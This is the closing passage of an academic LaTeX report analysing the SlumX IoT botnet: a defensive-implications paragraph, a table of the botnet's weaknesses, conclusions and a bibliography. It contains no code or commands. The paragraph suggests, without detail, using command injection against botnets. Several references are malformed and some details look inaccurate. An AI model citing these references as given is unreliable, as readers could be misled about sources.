\textbf{Defensive Implications}: These vulnerabilities provide the chance for cyber security teams to implement mitigation techniques that are specifically matched to the type of visible threat. Targeted crafted network responses and command injection exploits will likely be able to cause botnets to crash, and stop them from operating, or recover control of infected systems and make them available for remediation purposes. However, all of these actions require the cyber advantages be implemented within the legal context as well as ethically\cite{zhang2022deep}.

A summary of the identified vulnerabilities and their risk levels is provided in Table \ref{tab:vulnerabilities}:

\begin{table}[H]
\centering
\caption{SlumX Implementation Vulnerabilities}
\label{tab:vulnerabilities}
\begin{tabular}{|l|l|p{5cm}|}
\hline
\textbf{Vulnerability} & \textbf{Severity} & \textbf{Description} \\
\hline
Hardcoded C\&C Address & High & Single point of failure \\
Plain Text Communication & Medium & Traffic analysis vulnerability \\
Predictable Binary Names & Low & Signature detection risk \\
Fixed Port Usage & Medium & Network filtering opportunity \\
\hline
\end{tabular}
\end{table}

% capitulo 6
\chapter{Conclusions and Future Work}

\section{Key Findings}

This investigation of the SlumX botnet reveals significant advancements in IoT malware sophistication:

\textbf{Multi-architecture support:} SlumX implements comprehensive support for twelve different architectures (MIPS, ARM, x86, embedded systems), dramatically expanding the attack surface.

\textbf{Advanced evasion mechanisms:} The implementation includes process masquerading, anti-analysis features, and IoT-specific hiding techniques.

\textbf{Targeted exploitation:} Systematic vulnerability targeting with vendor-specific exploits and protocol-based attacks demonstrates evolution from opportunistic to targeted attacks.



\section{Limitations}

This research has several limitations: static analysis cannot capture all runtime behaviors, the analysis represents a temporal snapshot of SlumX capabilities, and testing was not performed on actual IoT devices. Results may not generalize to other botnet families.



\section{Future Work}

Future research should focus on dynamic analysis frameworks for multi-architecture IoT malware, development of specialized detection technologies for resource-constrained devices, and comparative analysis of botnet evolution patterns.



\section{Conclusions}

This analysis of the SlumX botnet reveals significant advancement in IoT malware sophistication, particularly in multi-architecture targeting and evasion capabilities. The findings demonstrate the evolution from opportunistic to targeted IoT attacks and highlight the urgent need for enhanced detection and mitigation strategies in the expanding IoT ecosystem.

% ========== BIBLIOGRAPHY ==========
\bibliographystyle{IEEEtran}
\begin{thebibliography}{99}

\bibitem{antonakakis2017understanding}
M. Antonakakis et al., "Understanding the mirai botnet," in \emph{Proceedings of the 26th USENIX Security Symposium}, 2017.

\bibitem{kolias2017ddos}
C. Kolias, G. Kambourakis, A. Stavrou, and J. Voas, "DDoS in the IoT: Mirai and other botnets," \emph{Computer}, 2017.

\bibitem{mahmoud2015iot}
R. Mahmoud, T. Yousuf, F. Aloul, and I. Zualkernan, "Internet of things (IoT) security: Current status, challenges and prospective measures," in \emph{Proceedings of the 10th International Conference for Internet Technology and Secured Transactions (ICITST)}, 2015.

\bibitem{silva2013botnets}
S. S. Silva, R. M. Silva, R. C. Pinto, and R. M. Salles, "Botnets: A survey," \emph{Computer Networks}, 2013.

\bibitem{zargar2013survey}
S. T. Zargar, J. Joshi, and D. Tipper, "A survey of defense mechanisms against distributed denial of service (DDoS) flooding attacks, 2013.

\bibitem{mansfield2016ddos}
J. Mansfield-Devine, "The next step in DDoS evolution," \emph{Computer Fraud \& Security}, 2016.

\bibitem{bertino2016botnets}
E. Bertino and N. Islam, "Botnets and internet of things security, 2017.

\bibitem{meidan2018n}
Y. Meidan et al., "N-BaIoT—Network-based detection of IoT botnet attacks using deep autoencoders, 2018.

\bibitem{pa2015internet}
Y. M. P. Pa, S. Suzuki, K. Yoshioka, T. Matsumoto, T. Kasama, and C. Rossow, "IoTPOT: A novel honeypot for revealing current IoT threats," \emph{Journal of Information Processing},  2016.

\bibitem{kuzin2018analysis}
M. Kuzin, Y. Shmelev, A. Kuskov, and A. Shelukhin, "Analysis of Mirai malicious software," in \emph{Proceedings of the 2018 IEEE Conference of Russian Young Researchers in Electrical and Electronic Engineering (EIConRus)}, 2018.

\bibitem{statista2024iot}
Statista Research Department, "Internet of Things (IoT) connected devices installed base worldwide from 2019 to 2030," \emph{Statista Market Insights}, 2024. [Online]. Available: https://www.statista.com/statistics/471264/iot-number-of-connected-devices-worldwide/

\bibitem{gartner2023iot}
Gartner Inc., "Gartner Says the Internet of Things Will Grow to 26 Billion Units By 2023," \emph{Gartner Press Release}, 2023.

\bibitem{spring2024defensive}
J. Spring et al., "Toward Systematic Defensive Deception Against Advanced Persistent Threats,, 2024.

\bibitem{marzano2018evolution}
A. Marzano et al., "The evolution of bashlite and mirai IoT botnets," in \emph{Proceedings of the 2018 IEEE Symposium on Security and Privacy (SP)}, 2018.

\bibitem{herwig2019measurement}
S. Herwig et al., "Measurement and analysis of Hajime, a peer-to-peer IoT botnet," in \emph{Proceedings of the Network and Distributed System Security Symposium (NDSS)}, 2019.

\bibitem{wang2022iot}
K. Wang, M. Du, D. Yang, C. Zhu, J. Shen, and Y. Zhang, "Game-theory-based active defense for intrusion detection in cyber-physical systems," \emph{IEEE Transactions on Cybernetics}, 2022.

\bibitem{sivanathan2020classifying}
A. Sivanathan et al., "Classifying IoT devices in smart environments using network traffic characteristics," \emph{IEEE Transactions on Mobile Computing}, 2020.

\bibitem{nisioti2021honeypots}
A. Nisioti, A. Mylonas, P. D. Yoo, and V. Katos, "From honeypots to honeynets: Techniques, tools, and challenges," \emph{IEEE Communications Surveys \& Tutorials}, 2021.

\bibitem{parmisano2022mozi}
A. Parmisano, S. Garcia, and M. J. Erquiaga, "A labeled dataset with malicious and benign IoT network traffic," in \emph{Proceedings of the 4th International Conference on Data Science and Engineering (ICDSE)}, 2020.

\bibitem{vishwakarma2023targeted}
G. Vishwakarma and G. S. Chhabra, "Targeted DDoS Attacks on IoT: A Survey of the Mirai Botnet and its Variants," in \emph{2023 International Conference on Artificial Intelligence and Smart Communication (AISC)}, Greater Noida, India, 2023.

\bibitem{alghazzawi2024efficient}
A. D. Alghazzawi, O. B. Fredj and K. A. Alissa, "An Efficient Hybrid Deep Learning Model for Detecting IoT Botnet Attacks," \emph{IEEE Access}, 2024.

\bibitem{almousa2023evolution}
S. A. Al-Mousa et al., "The Evolution of Mirai Botnet: A Survey of Variants, 2023.

\bibitem{zhang2022deep}
J. Zhang, L. Pan, Q. L. Han and C. Chen, "Deep Learning Based Attack Detection for Cyber-Physical System Cybersecurity: A Survey," \emph{IEEE/CAA Journal of Automatica Sinica}, March 2022.

\bibitem{roopak2019deep}
M. Roopak, G. Y. Tian, and J. Chambers, "Deep Learning Models for Cyber Security in IoT Networks, 2019.

\end{thebibliography}

\end{document}